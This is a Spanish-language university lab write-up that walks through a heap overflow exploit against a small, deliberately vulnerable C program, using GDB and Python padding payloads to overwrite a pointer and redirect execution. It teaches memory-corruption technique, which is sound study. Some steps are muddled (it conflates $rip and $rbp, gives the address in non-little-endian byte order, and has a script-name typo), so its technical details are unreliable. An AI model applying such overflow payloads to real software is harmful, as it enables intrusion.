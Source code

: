 # MUIC - DPS - Laboratorio 5 - Heap Overflow Example

En esta practica se presenta un pequeño y sencillo programa con el que lograr un exploit basado en Heap Overflow. 

Este exploit basado en malloc para Heap difiere del que podemos realizar para vulnerar la parte Stack de la pila. El Heap de un programa suele ser controlado por las librerías de C, encontrando como principales funciones malloc() y free(). El Heap está dividido en grupos de bloques libres de mismo tamaño, y en cada grupo los bloques están organizados mediante  listas doblemente unidas/ligadas. En el Heap, por temas de eficiencia, los punteros fd y bd (forward/backward) que mantienen las listas dobles ligadas son almacenados en el incio de cada bloque libre.

## Paso 1
Compilamos y corremos el programa:
```
gcc heapOverflow.c -o heapOverflow.o -w -g -no-pie -z execstack
./heapOverflow.o Hola
./heapOverflow.o XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX    #(+64 characters)
```
![Step1-Commands](imgs/step1_heap.png "Run commands")

## Paso 2
Mediante el uso del debugger GDB, observamos el funcionamiento de nuestro programa:
```
gdb ./heapOverflow.o    #Corremos GDB
(gdb) list 47,60        #Listamos el código de las líneas 47 a 60
(gdb) b 59              #Ponemos un breakpoint en la línea 59
```
![Step2-Commands](imgs/step2_gdb_list.png "GDB list")

```
(gdb) run XXXX
(gdb) info proc map
```
![Step2-Commands](imgs/step2_gdb_run.png "GDB run")

Ahora, intentamos ver el estado del Heap:
```
(gdb) x/480x 0x405000   #0x405000 es la dirección base del Heap en mi caso
                        #x/480x es para ver 480 bytes en hexadecimal, no pude con vemos observar el XXXX en el Heap
``` 
![Step2-Commands](imgs/step2_gdb_XXXX.png "GDB XXXX")

XXXX -> 0x58585858 -> 0x4052a0 dirección 

![Step2-Commands](imgs/step2_gdb_disas.png "GDB disassembly")

## Paso 3
Tratamos de analizar el comportamiento del sistema cuando hacemos uso del exploit de la localización en memoria. Para ello creamos un simple programa en python:
```python
#!/usr/bin/python
print("X"*90)
```

Procedemos a dar permisos de ejecución y corremos el programa en C pasandole como argumento el script creado:
```
chmod a+x python1.py
./heapOverflow.o $(./python1py)
```

![Step3-Commands](imgs/step3_python.png "Python script")

## Paso 4
Comprobamos el estado del registro $rip (instruction pointer). Primero, creamos un nuevo exploit, para cargar menos caracteres (80 en total):
```python
#!/usr/bin/python
print("X"*70 + "YAYBYCYDYEYFYG")
```
Procedemos a dar permisos de ejecución como anteriormente hicimos y debugeamos el programa:
```
gdb -q ./heapOverflow.o    #-q para que no muestre el banner de bienvenida
(gdb) run $(./python2.py)      #Corremos el programa con el exploit
(gdb) info registers    #Mostramos los registros
(gdb) q                 #Salimos del debugger
(gdb) y                 #Para confirmar la salida de gdb
```
Observamos el valor de $rip: GYFY -> 0x47594659

![Step4-Commands](imgs/step4_gdb_python2.png "GDB registers")

No obstante, este enfoque acabaría por pisar la memoria, por lo que no podremos ver el registro. Por eso es mejor realizar lo siguiente:
```python
#!/usr/bin/python
print("X"*80 + "CDEF")
```

Procedemos como anteriormente y observamos el valor de $rip: CDEF -> 0x46454443

![Step4-Commands](imgs/step4_gdb_python3.png "GDB registers")

Disassembling de la función f_entrar():

![Step4-Commands](imgs/step4_gdb_dissas_2.png "GDB disassembly")

## Paso 5
De la foto anterior, podemos observamos que el registro $rbp (base pointer) apunta a la dirección 0x00401156. Por lo tanto, podemos realizar un exploit que nos permita modificar el valor de $rbp y así poder controlar el flujo de ejecución del programa. Para ello, creamos un nuevo exploit:
```python
#!/usr/bin/python
print("X"*80 + "\x00\x40\x11\x56")
```

Y lo ejecutamos:
```
./heapOverflow.o $(./python4.py)
```

Finalmente obtenemos lo siguiente:

![Step5-Commands](imgs/step5_final.png "Final result")